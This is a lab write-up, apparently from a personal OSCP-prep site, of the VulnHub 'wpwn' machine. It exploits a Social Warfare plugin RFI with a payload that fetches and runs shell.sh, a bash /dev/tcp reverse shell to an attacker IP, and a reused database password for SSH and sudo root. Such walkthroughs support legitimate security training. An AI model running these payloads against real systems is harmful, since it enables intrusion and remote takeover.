

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/wpwn/index.html · generator: mkdocs

# wpwn

netdiscover found this running on

```
192.168.1.178
```

a port scan revealed ports 22 and 80 were open.

port 80 is hosting wordpress in `/wordpress/`

we ran wpscan, which found a vulnerable plugin: `Social Warfare 3.5.2`

By reading EDB-46794 we found an endpoint that has potential for RFI.

We are able to get a shell by creating `shell.sh` with the following content:

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.1.109/8080 0>&1

```

we then started a listener, and  hosted this `payload` for RFI

```
<pre>system('wget http://192.168.1.109:80/shell.sh && /bin/bash shell.sh')</pre>
```

this gives us shell as `www-data`

linpeas findings

database

```
wordpress_db
```

db user

```
wp_user
```

db password

```
R3&]vzhHmMn9,:-5
```

We were able to find the admin hash in the `wp_users` table on this db.


We are able to login as `takis` using the DB password.

```
ssh takis@192.168.1.178
```

```
R3&]vzhHmMn9,:-5
```

takis is able to run any command with SUDO.

![[Pasted image 20220711013822.png]]

get root with
```
sudo su
```

we looked at a walkthrough to find the root flag:

```
find / root 2>/dev/null | grep USB
```

leads us to `/usr/games/usb/root`

## Root flag

![[Pasted image 20220711014055.png]]
